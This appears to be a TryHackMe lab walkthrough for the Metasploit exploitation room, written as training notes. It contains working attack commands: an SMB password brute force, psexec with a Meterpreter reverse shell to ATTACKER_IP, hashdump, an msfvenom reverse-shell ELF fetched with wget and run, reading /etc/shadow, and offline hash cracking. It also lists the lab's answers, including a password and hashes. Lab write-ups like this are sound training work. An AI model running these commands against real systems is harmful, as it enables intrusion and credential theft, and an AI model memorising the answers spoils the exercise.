


<div align="center">

# 🎯 Metasploit: Exploitation

**TryHackMe Walkthrough — Jr Penetration Tester Path**


[Open the room ↗](https://tryhackme.com/room/metasploitexploitation)

</div>

---

Using Metasploit end-to-end: **scanning → database → vulnerability assessment → exploitation → payload generation**. These notes are from an authorized TryHackMe lab (an isolated, intentionally vulnerable target you're given permission to attack).

> [!NOTE]
> Replace `MACHINE_IP` with the deployed target and `ATTACKER_IP` with your AttackBox / VPN address (`ip addr show tun0`). The flags and hashes shown are from the static training box, kept as a reference for the walkthrough.

## 🗺️ The attack chain at a glance



---

## Table of Contents

| # | Task | Core skill |
|---|------|-----------|
| 1 | [Getting Started](#task-1--getting-started) | Launch `msfconsole` |
| 2 | [Scanning](#task-2--scanning) | Auxiliary scanner modules + SMB brute force |
| 3 | [The Metasploit Database](#task-3--the-metasploit-database) | Workspaces & tracking findings |
| 4 | [Vulnerability Scanning](#task-4--vulnerability-scanning) | SMTP relay check, reading module metadata |
| 5 | [Exploitation](#task-5--exploitation) | `psexec` → Meterpreter → `hashdump` |
| 6 | [Msfvenom](#task-6--msfvenom) | Standalone payload + `multi/handler` |
| ★ | [**Deep Dive: How did we get the hash?**](#-deep-dive-how-did-we-actually-get-that-hash) | The full reasoning |
| — | [Command Reference](#-command-reference) · [Lessons Learned](#-lessons-learned) | |

---

## Task 1 — Getting Started

> [!TIP]
> **Goal:** fire up the Framework and let the target boot.

```bash
msfconsole
```

Nothing to answer — just set up the lab. Give the target a minute or two to finish booting before you start scanning.

---

## Task 2 — Scanning

> [!TIP]
> **Goal:** enumerate the target using Metasploit's own scanners, then brute-force an SMB login.

Metasploit ships **auxiliary scanner modules**, so you never have to leave the console. List the port scanners:

```text
msf6 > search portscan
```

| Module | Use |
|--------|-----|
| `auxiliary/scanner/portscan/tcp` | Standard TCP connect scan |
| `auxiliary/scanner/portscan/syn` | SYN (half-open) scan |
| `auxiliary/scanner/portscan/ack` | ACK scan (maps firewall rules) |

### 🔹 TCP port scan

```text
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS MACHINE_IP
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 1-10000
msf6 auxiliary(scanner/portscan/tcp) > set CONCURRENCY 50
msf6 auxiliary(scanner/portscan/tcp) > run
```

| Option | Meaning |
|--------|---------|
| `RHOSTS` | Target host(s) |
| `PORTS` | Port range to probe |
| `CONCURRENCY` | How many **hosts** are scanned in parallel (≠ threads per host) |

### 🔹 SMB version & NetBIOS name

```text
msf6 > use auxiliary/scanner/smb/smb_version
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS MACHINE_IP
msf6 auxiliary(scanner/smb/smb_version) > run
```

Reveals the SMB dialect **and** the NetBIOS computer name.

### 🔹 Service on port 8000

Fingerprint it (`auxiliary/scanner/http/http_version`, or confirm from `nmap -sV`) — the banner shows the web server software and version.

### 🔹 Brute-forcing SMB user `penny`

The room provides a wordlist (download it from the task's files; on the AttackBox it's under `/usr/share/wordlists/MetasploitRoom/`).

```text
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set RHOSTS MACHINE_IP
msf6 auxiliary(scanner/smb/smb_login) > set SMBUser penny
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/wordlists/MetasploitRoom/<wordlist>.txt
msf6 auxiliary(scanner/smb/smb_login) > set VERBOSE false
msf6 auxiliary(scanner/smb/smb_login) > run
```

A `[+] ... Success` line confirms the valid pair — **keep it for Task 5.**

### ✅ Answers

| Question | Answer |
|----------|--------|
| How many ports are open? | `5` |
| NetBIOS name detected | `ACME IT SUPPORT` |
| Service running on port 8000 | `webfs/1.21` |
| SMB password for user `penny` | `leo1234` |

---

## Task 3 — The Metasploit Database

> [!TIP]
> **Goal:** understand how Metasploit stores findings across an engagement.

For anything bigger than one host, the backing **PostgreSQL database** remembers hosts, services, vulns, loot and credentials.

```bash
# once, from a normal shell:
systemctl start postgresql
msfdb init
```

```text
msf6 > db_status                    # confirm the DB is connected
msf6 > workspace                    # list workspaces (* = current)
msf6 > workspace -a acme-it         # create + switch to a new one
msf6 > db_nmap -sV -p- MACHINE_IP   # run nmap AND auto-import the results
msf6 > hosts                        # hosts the DB knows about
msf6 > services                     # discovered services/ports
msf6 > vulns                        # tracked vulnerabilities
msf6 > creds                        # recovered credentials
msf6 > loot                         # collected loot (hashes, files)
```

> [!NOTE]
> **Workspaces** isolate engagements — scans against one target never pollute another's data. No question to answer here; it's conceptual.

---

## Task 4 — Vulnerability Scanning

> [!TIP]
> **Goal:** test a service for a specific weakness (SMTP open relay) and read the module's metadata.

```text
msf6 > search smtp_relay
msf6 > use auxiliary/scanner/smtp/smtp_relay
msf6 auxiliary(scanner/smtp/smtp_relay) > info      # author, description, options
msf6 auxiliary(scanner/smtp/smtp_relay) > set RHOSTS MACHINE_IP
msf6 auxiliary(scanner/smtp/smtp_relay) > run
```

`info` (or `show info`) prints the module's metadata, including the **Author** field.

> [!IMPORTANT]
> Many **exploit** modules expose a `check` command that safely tests whether a target is vulnerable *before* you fire the real exploit. Use it whenever it's available.

### ✅ Answer

| Question | Answer |
|----------|--------|
| Who authored the SMTP relay scan module? | `Campbell Murray` |

---

## Task 5 — Exploitation

> [!TIP]
> **Goal:** turn the recovered SMB creds into code execution, then loot the box.

`psexec` authenticates over SMB and runs a payload as a Windows service:

```text
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS MACHINE_IP
msf6 exploit(windows/smb/psexec) > set SMBUser penny
msf6 exploit(windows/smb/psexec) > set SMBPass leo1234
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set LHOST ATTACKER_IP
msf6 exploit(windows/smb/psexec) > exploit
```

Once you land a **Meterpreter** session:

```text
meterpreter > getuid                 # what context am I running as?
meterpreter > search -f flag.txt     # locate the flag anywhere on disk
meterpreter > cat C:\\path\\to\\flag.txt
meterpreter > hashdump               # dump local account password hashes
```

`hashdump` prints `user:RID:LMhash:NTLMhash:::` — the **NTLM** value is the 4th colon-separated field.

**Session juggling:**

```text
meterpreter > background     # park the session (keeps it alive)
msf6 > sessions              # list
msf6 > sessions -i 1         # re-enter session 1
```

### ✅ Answers

| Question | Answer |
|----------|--------|
| Contents of `flag.txt` | `THM-5455554845` |
| NTLM hash for user `pirate` | `8ce9a3ebd1647fcc5e04025019f4b875` |

---

## Task 6 — Msfvenom

> [!TIP]
> **Goal:** build a standalone payload for when you can't hit a service directly, but *can* drop and run a file on the target (a Linux box here).

### 1️⃣ Generate the payload

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf > shell.elf
```

| Flag | Meaning |
|------|---------|
| `-p` | Payload to use |
| `-f` | Output format (`elf`, `exe`, `raw`, …) |
| `LHOST` / `LPORT` | Where the shell calls **back** to |

> List options with `msfvenom --list payloads` / `--list formats`.

### 2️⃣ Start the listener (catch the callback)

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST ATTACKER_IP
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run
```

> [!WARNING]
> The handler's `payload`, `LHOST`, and `LPORT` **must be identical** to what you baked into the ELF, or the session will never connect. This is the #1 reason people get stuck here.

### 3️⃣ Deliver & execute on the target

```bash
# attacker — serve the file
python3 -m http.server 9000

# target — pull, make executable, run
wget http://ATTACKER_IP:9000/shell.elf
chmod +x shell.elf && ./shell.elf
```

The handler catches the session. Now grab the hashes from `/etc/shadow`:

```text
meterpreter > shell
$ cat /etc/shadow
```

### ✅ Answer

| Question | Answer |
|----------|--------|
| The other user's password hash | `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0` |

---

## 🧠 Deep Dive: How Did We *Actually* Get That Hash?

This is the part that matters more than the answer. Here's the full reasoning, step by step.



### Step 1 — Where do Linux passwords live?

Two files, and this trips people up:

| File | Readable by | What's in the password field |
|------|-------------|------------------------------|
| `/etc/passwd` | **everyone** | just an `x` — a placeholder, **not** the hash |
| `/etc/shadow` | **root only** | the real hashed password |

So the hash is **never** in `/etc/passwd`. You *must* read `/etc/shadow`, and that needs root-level read. Our payload session on this box has enough privilege to read it — that's the whole reason gaining a session mattered.

### Step 2 — Read the file and understand a line

```bash
$ cat /etc/shadow
root:$6$abc...:19000:0:99999:7:::
daemon:*:19000:0:99999:7:::
...
pirate:$6$Sy0NNIXw$SJ27WltHI89...tbep0:19000:0:99999:7:::
```

Each line is colon-separated. The field we care about is the **2nd**:

```
 pirate : $6$Sy0NNIXw$SJ27Wlt...tbep0 : 19000 : 0 : 99999 : 7 : : :
   │              │                      │
 username    password hash          last-changed, expiry, etc.
```

### Step 3 — Pick out "the *other* user"

Most lines are **system / service accounts** (`root`, `daemon`, `bin`, `sys`, `nobody`, …). You can ignore them because their password field is:

- `*` or `!` or `!!` → **the account has no usable password** (can't log in with one), so there's nothing to grab.

A real, login-capable account has an **actual hash** starting with `$`. "The other user" simply means *the human account that isn't the one you came in as* — the one real login whose field starts with `$6$`.

### Step 4 — Decode the `$6$` format

That string isn't random — it's three parts separated by `$`:

```
$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0
└┬┘ └──┬───┘ └──────────────────────────────┬──────────────────────────────────────────────────┘
 │     │                                     │
 │     │                                     └─ the hashed password
 │     └─ the salt (random, stops two equal passwords looking identical)
 └─ algorithm id
```

| ID | Algorithm |
|----|-----------|
| `$1$` | MD5 |
| `$5$` | SHA-256 |
| **`$6$`** | **SHA-512** ← this one |
| `$y$` | yescrypt (modern default) |

> [!IMPORTANT]
> The answer is the **entire** string, starting at `$6$` and ending at the last character before the next colon. Don't trim the `$6$` and don't include the trailing `:`.

### Step 5 — What you'd *do* with it (bonus)

A hash isn't a password — it's a one-way fingerprint. To recover the plaintext you crack it **offline** (no requests to the target, so nothing to detect):

```bash
# hashcat — mode 1800 = sha512crypt ($6$)
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt

# or John the Ripper (auto-detects the format)
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**That's the whole trick:** get a session → read `/etc/shadow` → ignore the `*`/`!` service accounts → take the one real `$6$` login that isn't you → (optionally) crack it offline.

---

## 📋 Command Reference

| Command | Purpose |
|---------|---------|
| `search <term>` | Find modules by keyword |
| `use <module>` | Select a module |
| `show options` / `info` | View settings / metadata |
| `set <OPT> <val>` / `setg` | Set an option (local / global) |
| `check` | Test if a target is vulnerable (where supported) |
| `run` / `exploit` | Launch the module |
| `db_nmap <args>` | Run nmap and import into the DB |
| `hosts` / `services` / `vulns` / `creds` / `loot` | Query the database |
| `workspace -a <name>` | Create & switch workspace |
| `sessions` / `sessions -i <id>` | List / interact with sessions |
| `background` | Park the current session |
| `hashdump` | (Meterpreter) dump Windows local hashes |
| `search -f <file>` | (Meterpreter) find a file on the target |
| `msfvenom -p <payload> LHOST=.. LPORT=.. -f <fmt>` | Build a standalone payload |

## 🎓 Lessons Learned

- **Credentials chain into access.** A password a scanner recovers (`smb_login`) becomes the key to a full session (`psexec`). Enumeration and exploitation feed each other.
- **The listener must mirror the payload.** Payload type, `LHOST`, `LPORT` identical between the msfvenom build and `multi/handler`.
- **`CONCURRENCY` ≠ `THREADS`.** In portscan modules, `CONCURRENCY` is how many *hosts* run at once.
- **`check` before `exploit`** when supported — confirms vulnerability without the noise/risk.
- **Hashes live in `/etc/shadow`, not `/etc/passwd`;** `*`/`!` means no usable password; `$6$` = SHA-512; crack offline with `hashcat -m 1800` or `john`.
- **Windows vs Linux loot differ:** `hashdump` → NTLM; `/etc/shadow` → `$6$` sha512crypt. Different cracking modes entirely.
